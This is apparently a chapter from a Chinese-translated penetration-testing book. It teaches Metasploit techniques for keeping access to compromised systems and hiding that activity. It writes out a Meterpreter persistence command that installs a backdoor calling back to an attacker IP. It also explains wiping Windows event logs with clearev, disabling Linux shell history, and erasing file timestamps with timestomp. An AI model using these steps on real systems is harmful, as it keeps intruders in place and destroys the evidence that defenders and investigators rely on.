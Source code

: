 # 第十七章：维持访问和清除痕迹

在上一章中，我们学习了特权升级概念以及实际的升级技术。

在本章中，我们将学习如何在被妥协的系统上保持访问并使用反取证技术清除痕迹。我们将学习如何在被妥协的系统上建立持久后门，并使用 Metasploit 的反取证能力来清除渗透痕迹。

在本章中，我们将涵盖以下主题：

+   维持访问

+   清除痕迹和路径

+   反取证

# 维持访问

到目前为止，在本书中，我们已经看到了渗透测试的各个阶段。所有这些阶段都需要大量的时间和精力。假设你正在对一个目标进行渗透测试，并且已经努力通过 Metasploit 获得了远程系统访问。你希望在任务继续进行的几天内保持这种辛苦获得的访问。然而，在这段时间内，被妥协的系统是否会重新启动并没有保证。如果重新启动，你的访问将会丢失，你可能需要再次努力获得相同的访问权限。这正是我们希望在被妥协的系统中保持或持续访问的确切场景。

Metasploit 提供了一些出色的内置机制，可以帮助我们保持对被妥协系统的持久访问。第一步将是利用针对易受攻击的目标系统的合适漏洞，并获得 Meterpreter 访问，如下截图所示：

![](img/b2851627-c0a8-49fd-ae4a-d4bad9f6ab73.png)

一旦利用成功，我们就可以获得对远程系统的 Meterpreter 访问。Metasploit 中的 Meterpreter 提供了一个名为`persistence`的实用程序，它可以帮助我们在受损系统上安装一个永久后门。我们可以使用`run persistence -h`命令了解更多关于`persistence`实用程序的信息：

![](img/33782514-af5a-4d03-ba41-9d06880628bb.png)

现在我们执行`persistence`命令：

```
meterpreter >run persistence –A –L c:\\ -X 60 –p 443 –r 192.168.25.130
```

这个命令将执行`persistence`脚本并启动一个匹配的处理程序(`-A`)，将 Meterpreter 放在目标系统的`c:\\`位置(`-L c:\\`)，系统启动时自动启动监听器(`-X`)，每 60 秒检查一次连接(`60`)，在端口`443`上连接(`-p 443`)，并在 IP 地址`192.168.25.130`上回连到我们。

`persistence`脚本的执行输出如下：

![](img/56119311-b4c1-483d-b8a7-b8957aa3c1cb.png)

现在`persistence`脚本已成功安装在目标系统上，我们不需要担心重新启动。即使目标系统重新启动，无论是故意还是意外，`persistence`脚本都会自动重新连接到我们，再次给我们 Meterpreter 访问权限。

# 清除痕迹和路径

渗透测试由一系列复杂的任务对目标系统执行而成。执行这些任务会以多种方式影响目标系统。多个配置文件可能会被修改，许多审计记录可能会被记录在日志文件中，对于 Windows 系统，注册表可能会发生变化。所有这些变化可能帮助调查人员或蓝队成员追溯攻击向量。

完成渗透测试后，清除所有在妥协过程中使用的残留文件是很好的。但是，这需要与蓝队达成一致。清除所有痕迹的另一个目的可能是测试组织的事后响应方法。然而，现实世界的攻击者可能会简单地利用这一点来掩盖他们的痕迹并保持不被发现。

Metasploit 具有一些帮助清除痕迹的能力。首先，我们需要利用一个漏洞并给予 Meterpreter 对目标的访问：

![](img/b4b9c3e8-0a35-43c7-89a5-a005d39b34ca.png)

以下截图显示了我们目标系统上的应用程序事件日志：

![](img/859e6c25-02ed-4a4f-aa7f-836700e5be7c.png)

以下截图显示了我们目标系统上的`System`事件日志：

![](img/d874c0a5-b473-4d67-ac9a-08eb488805be.png)

现在我们已经给予 Meterpreter 对目标系统的访问权限，我们将使用`getsystem`命令将权限提升到管理员级别。Meterpreter 有一个名为`clearev`的实用程序，用于擦除目标系统上的审计记录。当我们执行`clearev`时，目标上的所有审计记录都被擦除：

![](img/d9af5879-b8c8-4663-a119-06756ff7c95e.png)

以下截图显示，由于`clearev`擦除了应用程序事件日志，因此没有应用程序事件日志：

![](img/43af6a3f-66f7-4d6c-97d7-9fb54a1229c4.png)

以下截图显示，由于`clearev`擦除了系统事件日志，因此没有系统事件日志：

![](img/584ee98d-d327-4501-a7c7-3527a8dfb78c.png)

同样，在具有 Linux 操作系统的目标上，我们可以做一些事情来清除我们的痕迹。Linux 终端维护命令历史记录，可以使用`history`命令查看：

![](img/a3565782-5d49-40e3-bc10-7d4be4436499.png)

在 Linux 系统（基于 Debian 的系统）中，负责控制命令历史记录的参数是`$HISTSIZE`。如果我们能够将其值设置为`0`，就不会存储任何命令历史记录：

![](img/d8ea765e-028f-4410-8cd5-3aefe4474b63.png)

# 反取证

在前一节中，我们看到渗透测试任务留下了多个痕迹。事后取证调查可以揭示有关妥协发生方式的许多信息。进行取证分析时的一个重要因素是时间戳。文件时间戳有助于重建可能发生的一系列活动。

Metasploit 提供了能够有效用于覆盖时间戳值并误导取证调查的功能。

首先，我们利用漏洞针对目标使用 Meterpreter 访问。然后我们使用`timestomp <filename> -v`命令列出与文件相关的各种时间戳：

![](img/9eb1336c-08a4-4383-bef5-962afcf88a93.png)

现在，我们可以尝试使用`timestamp <filename> -b`命令擦除文件的时间戳。此命令将清除与目标文件相关的所有时间戳：

![](img/7c098fc8-9bb8-4442-98c3-046974762c61.png)

# 总结

在本章中，我们学习了各种技术来持久访问受损目标。我们还学习了清除受损系统痕迹的各种方法，以及 Metasploit 框架的一些反取证能力。

在下一章中，我们将学习正确漏洞评分的重要性。
